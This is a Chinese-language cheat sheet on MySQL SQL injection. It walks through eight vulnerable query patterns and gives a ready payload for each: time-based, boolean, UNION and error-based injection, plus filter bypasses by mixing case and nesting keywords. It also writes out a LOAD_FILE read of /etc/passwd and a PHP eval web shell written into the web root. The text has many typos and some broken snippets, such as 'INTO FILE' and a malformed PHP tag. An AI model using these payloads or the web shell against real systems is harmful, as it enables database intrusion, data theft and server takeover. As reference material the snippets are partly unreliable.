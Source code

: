 #SQL—Injection
应用程序在向后台数据库传递SQLc查询时，如果为攻击者提供了影响该查询的能力，就会引起sql注入。简而言之就是程序代码在编写的时候没有对用户可控的变量进行合适的判断d和处理导致不可信数据被作为命令或是数据查询的一部分发送到用户客户端，导致漏洞的发生。
##Mysql注入
###Mysql数据库版本
 - show version(); < 5.0 没有information_schema数据库;
 - show version(); > 5.0 有内置information_schema数据库，可以快速查找表明;
 - show version(); > 5.5 有内置information_schema数据库和performance_schema数据库(用于收集数据库服务器性能参数)；  

###注释符
 - `#` `/*` `-- -` `;%00`  `` ` 
 - 值得注意：在Accsee数据库中没有注释符的存在，但是在一定条件下可以使用%00来代替注释符。

###注入方式
 - inband,利用攻击者和存在漏洞的wen程序之间现有的f通信方式来进行sql注入并提取数据，Union注入、报错注入(error-base)；
 - inference,通过传入不同的参数值来观察web程序表现的差异性来进行sql注入并提取数据，布尔值注入(bool)、时间注入(time-base)；
 - Out-of-inband，当现有的通信渠道不能提取数据d时，我们可以利用其他渠道来尝试提取数据，如e-mail、HTTP/DNS、文件系统；

###Mysql 读写文件
 - LOAD_FILE() 
    - SELECT LOAD_FILE('/etc/passwd');
    - Mysqlyd用户必须有文件读取的权利；文件大小要小于max_allowed_packet;
 - INTO OUTFILE()
   - SELECT '<?php eval($_REQUEST[\'s\']);>' INTO FILE '/var/www/1.php';
   - INTO OUTFILE不能覆盖已经存在的文件；

###常用函数
 - `@@VERSION()` `VERSION()` `current_user` `database()` `@@HOSTNAME`

##SQL
 - [SQL-1](#sql-1)
 - [SQL-2](#sql-2)
 - [SQl-3](#sql-3)
 - [SQl-4](#sql-4)
 - [SQL-5](#sql-5)
 - [SQl-6](#sql-6)
 - [SQl-7](#sql-7)
 - [SQl-8](#sql-8)


##<span id="SQL-1">SQL-1</span>
###mysql_query
 - `SELECT * FROM users WHERE id=1 LIMIT 0,1;`
###Payload
 - time-based blind 
    - `id=1 AND SLEEP(5) `
    - `id=1 AND (SELECT * FROM (SELECT(SLEEP(5)))Kevinsa)`
 - boolean-based blind 
    - `id=1 AND 6036=6036`
 - UNION query
    - `id=-3563 UNION ALL SELECT NULL,NULL,CONCAT()--`

##<span id="SQL-2">SQL-2</span>
对比于SQL-1的直接传值$id，SQL-2中在SQL-1注入Payload的基础上需要对y单引号`'`进行闭合；
###mysql_query
 - `SELECT * FROM users WHERE id='$id' LIMIT 0,1;`
###PayLoad
 - time-based blind 
    - `id=1' AND SLEEP(5) AND 'sql'='sql`
    - `id=1' AND (SELECT * FROM (SELECT(SLEEP(5)))Kevinsa) and 'Kevinsa'='Kevinsa`
 - boolean-based blind 
    - `id=1' AND 6036=6036 AND 'Drgh'='Drgh`
 - UNION query
    - `id=-3563' UNION ALL SELECT NULL,NULL,CONCAT()-- Kevinsa'`

##<span id="SQL-3">SQL-3</span>
###mysql_query
 - `SELECT * FROM users WHERE id=($id) LIMIT 0,1;`
###Payload
 - time-based blind
    - `?id=1) AND SLEEP(5) AND (1=1# `
 - boolen-based blind
    - `?id=1) AND 1378=1379 AND ('ARzY'='ARzY'`

##<span id="SQL-4">SQL-4</span>
可以看到SQL-4与SQL-1是相类似的，在不需要闭合任何符合的情况下就可以进行SQL注入，但是在SQL-4中值得一提的是，SQL-4中开启了`mysql_error();`，r所以我们可以利用报错注入的方式来提取数据。
###mysql_query
 - ```
   $sql_query="SELECT * FROM users WHERE id=$id LIMIT 0,1";
   mysql_query($sql_query);
   echo mysql_error;
   ```

###Payload
 - error-based blind
    - `?id=1 AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT(user(),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)`
        - 主键重复性报错，floor(rand(0)*2)、count(*)、group by，报错方式的原理是：使用rand()查询时，由于group by的存在floor(rand(0)*2)会被执行一次，当x虚拟表不存在时，插入虚拟表会被再执行一次，而报错正是因为floor(rand(0)*2)的确定性011；文章：Wooyun知识库-Mysql报错注入原理分析(count()、rand()、group by)
    - `id=1  and (extractvalue(1,concat(0x7e,(select user()),0x7e)))`
        - extractvalue是mysql5.1提供的内置XML文件解析和修改函数，函数语法为extratvalue(XML_document,XPath_string),其中的XML_document是string格式，而当我们传入一个数值时，extractvalue()函数会产生报错；
    - `id=1  and (updatexml(1,concat(0x7e,(select user()),0x7e),1))`
        - extractvalue、updatexml都属于xpath语法错误进行报错注入，version>5.1.5,提供的两个XML查询和修改哈苏宁沪，extractvalue负责在xml文档中按照xpath语法查询节点内容，而updatexml负责修改查询到的内容。extractvalue、updatexml函数的第二个参数都是要去符合xpath语法的字符串，如果我们传入数字就能产生报错。updatexml同样是mysql5.1中提供的内置xml文件解析和修改函数，函数语法为updatexml(XML_document,XPath_string,new_value),其中的XML_document是string格式，而当我们传入一个数值时，updatexml()函数会产生报错；  


##<span id="SQL-5">SQL-5</span>
虽然SQL-5的csql查询方式和SQL-1一样，但是php代码中没有对结果的输出点，而且注入布尔值判断也不影响页面正常输出任何内容，所以我们只能利用time-based blind。
###mysql_query
 - `SELECT * FROM users WHERE id='$id' LIMIT 0,1; 
    /* echo mysql_query(); */`
###Payload
 - time-based blind 
    - `id=1 AND SLEEP(5) `
    - `id=1 AND (SELECT * FROM (SELECT(SLEEP(5)))Kevinsa)`  


##<span id="SQL-6">SQL-6</span>
SQL-6对比与SQL-1多了一层粗糙的过滤，`function sqlentities()`以黑名单的方式对id参数值进行过滤。
###mysql_query
 - ```
   function sqlentities($var) {
    $var = str_replace("select"," ",$var);
	$var = str_replace("sleep"," ",$var);
	$var = str_replace("and"," ",$var);
	$var = str_replace("from"," ",$var);
	$var = str_replace("where"," ",$var);
	$var = str_replace("union"," ",$var);
	
	return $var;
	}

   ```
###Payload
最简单的方式，我们一大小写混淆来绕过过滤
- time-based blind 
    - `id=1 AND SLEEP(5) `
    - `id=1 AND (SELECT * FROM (SELECT(SLEEP(5)))Kevinsa)`
 - boolean-based blind 
    - `id=1 AND 6036=6036`
 - UNION query
    - `id=-3563 UNION ALL SELECT NULL,NULL,CONCAT()--`

##<span id="SQL-7">SQL-7</span>
相对于SQL-6，SQL-7匹配为大小写匹配，我们不能用大小写混淆来绕过过滤。
###mysql_quey
 -  ```
    function sqlentities($var) {
    $var = preg_replace('/(select|where|sleep|and|from|union)/i',"",$var);
	return $var;
	}
	}
  ```

###Payload
- time-based blind 
    - `id=1 ANandD SLandEEP(5) `
    - `id=1 AND (SELEandCT * FandROM (SandELECT(SLandEEP(5)))Kevinsa)`
 - boolean-based blind 
    - `id=1 ANandD 6036=6036`
 - UNION query
    - `id=-3563 UNandION ALL SELECandT NULL,NULL,CONCAT()--`

##<span id="SQL-8">SQL-8</span>
###mysql_query
 - ```
   $name=$_POST['username'];  
   $password=$_POST['password']; 
   ```
